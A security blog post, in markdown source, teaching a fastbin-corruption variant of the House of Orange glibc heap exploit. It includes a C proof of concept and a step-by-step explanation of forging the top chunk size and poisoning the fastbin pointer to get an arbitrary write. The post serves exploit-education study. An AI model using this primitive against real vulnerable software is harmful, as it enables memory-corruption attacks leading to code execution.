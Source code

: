 ```yaml
---
layout: post
title: "Fastbin dup with House of Orange"
date: 2018-02-14
excerpt: "Alternate way to exploit the House of Orange scenario using fastbin corruption"
tags: [heap, fastbin, method]
description: Sample placeholder post.
---
```


This post will demonstrate an alternate way to exploit the House of Orange scenario which was originally shown by 4ngelboy. It involves using fastbin corruption on the old top chunk to allocate a chunk at an arbitrary location, thus achieving a write-what-where primitive.  The premises are same as that of House of Orange –

  * A heap overflow must be present.
  * We must control the size that is being passed to malloc.

The advantages of this alternative are –

  * Given that the address of the target location is known, no other heap or libc leaks are required.
  * It does not use the \_IO_FILE jump table. So the patch with the latest libc, on the vtable check does not apply here.

The proof of concept that this post will be following can be found <a target="_blank" rel="noopener noreferrer" href="https://www.github.com/vigneshsrao/Concepts/blob/master/fastbin_orange/fastbin_orange.c">here</a>.

{% highlight c %}
int main()
{
    unsigned long target=0x51;
    fprintf(stderr, "target @ %p\n", &target);

    char *p=(char*)malloc(0x1000-16-0x70);
    size_t *top= (size_t*)(p+0x1000-16-0x70);

    fprintf(stderr, "top chunk @ %p\n", top);

    top[1]=0x71;

    malloc(0x1000);

    top[2]=(size_t)(&target-1);

    malloc(0x50-16);

    fprintf(stderr,"new chunk @ %p\n",malloc(0x50-16));
}
{% endhighlight %}

We start with the assumption that the target location is known. This can be a GOT address, malloc_hook, free_hook, a stack location etc. We will take the target location as a stack variable. Also, for this particular PoC, we will be allocating a chunk of size 0x50, but in general, a chunk of any size in the fastbin range can be allocated. Since we will finally be performing a fastbin dup, we need that the size of the chunk is written near our target location.

```c
    unsigned long target=0x51;
```

The first part is similar to the House of Orange. We first allocate a large chunk, edit the size of the top chunk and then allocate another large chunk whose size should be greater than that of the current top chunk. Note that the top chunk must always satisfy the following conditions –

Top chunk’s PREV_IN_USE bit must be set
Top chunk + size should be page aligned
The normal page size on Linux is 4kB (0x1000 bytes). Also, whenever a chunk is allocated, it has 16 bytes of metadata. So we must malloc (0x1000 – 16 – 0x70) bytes. We will come to why it’s “- 0x70” and not “- 0x50” shortly.

```c
    char *p=(char*)malloc(0x1000-16-0x70);

    size_t *top= (size_t*)(p+0x1000-16-0x70);
```

Now we have to edit the size of the top chunk. Here, we assume that there is a heap overflow which can be used to do this. We will overwrite the size field of the top chunk with 0x71. Thus the PREV_IN_USE bit is set, and top chunk + size(0x70) is page aligned.

```c
    top[1]=0x71;
```

Now we will come to why we were using the size 0x70, instead of 0x50. When the next call to malloc is made with a size greater than the size of the top chunk, the current top will be extended and the. A temporary chunk is used to keep track of the change in the size of the top chunk. For the temporary chunk, 0x20 byte’s are allocated from the top chunk. Thus after the allocation of the temporary chunk, the size of top chunk becomes 0x70-0x20=0x50 and the top chunk is freed. Thus the fastbin of size 0x50 contains the old top chunk.

```c
    malloc(0x1000);
```

Now, this scenario can be exploited using a simple fastbin dup as we have a heap overflow. For this, we will first set the next pointer of the fastbin list of size 0x50 to point to the target address. Note that the target address should be such that, 0x51 must be written at the address + 8.

```c
    top[2]=(size_t)(&target-1);
```

Now, a malloc of size 0x50-16 will return the old top chunk and set the head of the fastbin of size 0x50 to our target chunk.

```c
    malloc(0x50-16);
```

The next malloc request of size 0x50-16 will return us a chunk at our target location.

```c
    fprintf(stderr, “new chunk @ %p\n”, malloc(0x50-16));
```

![fastbin](/assets/img/fastbin/fastbin_orange.png)
{: .image-pull-left}


## Credits:

* [Angelboy’s blog post](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html) on House of Orange.
* [House of Orange PoC](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c) in Shellphish’s [how2heap](https://github.com/shellphish/how2heap) repository.
